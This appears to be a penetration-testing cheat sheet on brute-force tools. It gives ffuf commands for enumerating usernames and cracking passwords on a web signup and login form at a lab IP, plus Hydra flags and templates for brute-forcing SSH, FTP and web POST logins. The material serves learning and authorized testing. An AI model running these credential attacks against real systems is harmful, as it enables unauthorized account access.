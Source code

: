 # Bruteforce tools

<figure><img src="https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExYW83cWZsNnc5cmN5ZmQxMnEwcmgxdGRnZ2Z1MHFrbnJlMWFnNWMwNiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/zAow7d16Sf0xq/giphy.gif" alt="" width="375"><figcaption></figcaption></figure>

## `Ffuf`

### Installation

{% embed url="https://github.com/ffuf/ffuf" %}

{% hint style="info" %}
_<mark style="color:blue;">Make sure you have</mark>_ _<mark style="color:blue;">**go**</mark>_ _<mark style="color:blue;">version</mark>_ _<mark style="color:blue;">**1.13 or greater**</mark><mark style="color:blue;">.</mark>_
{% endhint %}

### Go | Update

```bash
# Remove the golang-go package

sudo apt-get remove golang-go

# Remove the golang-go dependencies

sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package

sudo rm -rvf /usr/local/go

# Install the new Go version

wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file

sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables

source ~/.profile

# Verify Go version

go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Bruteforce Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

## `Hydra`

{% hint style="info" %}
<mark style="color:blue;">**Bruteforce**</mark> <mark style="color:blue;">tool.</mark>
{% endhint %}

### Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

### Flags

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

### Usage

#### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

#### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

#### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

###
